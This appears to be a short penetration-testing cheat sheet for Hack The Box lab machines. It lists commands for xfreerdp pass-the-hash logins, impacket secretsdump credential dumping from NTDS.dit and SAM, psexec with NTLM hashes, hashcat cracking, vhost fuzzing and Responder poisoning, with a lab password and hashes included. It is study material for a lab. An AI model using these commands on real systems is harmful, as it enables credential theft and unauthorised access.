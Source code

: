Below are just examples of how to execute each of the commands that I would normally use.
# XfreeRDP
```
xfreerdp /v:10.129.43.43 /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/p3ta/ /dynamic-resolution
```
```
xfreerdp /v:10.129.203.122 /u:administrator /pth:'bac9dc5b7b4bec1d83e0e9c04b477f26' /drive:linux,/home/p3ta/HTB /dynamic-resolution
```
# Impacket
## Secretsdump
```
impacket-secretsdump server_adm@10.129.43.42 -just-dc-user administrator
```
```
impacket-secretsdump local -system SYSTEM -ntds ntds.dit 
```
```
impacket-secretsdump local -system registry/SYSTEM -ntds Active\ Directory/ntds.dit
```
```
impacket-secretsdump local -system SYSTEM -sam SAM
```
## PSexec
```
impacket-psexec administrator@10.129.43.42 -hashes :7796ee39fd3a9c3a1844556115ae1a54
```
# Hashcat
NTLM
```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
# Gobuster
VHOST
```
gobuster vhost -u mailroom.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```
# FFUF
VHOST
```
sudo ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://mailroom.htb/ -H "Host: FUZZ.mailroom.htb" -fs 7748
```
# Responder
Location: /tools/responder
```
sudo ./Responder.py -wrf -v -I tun0
```

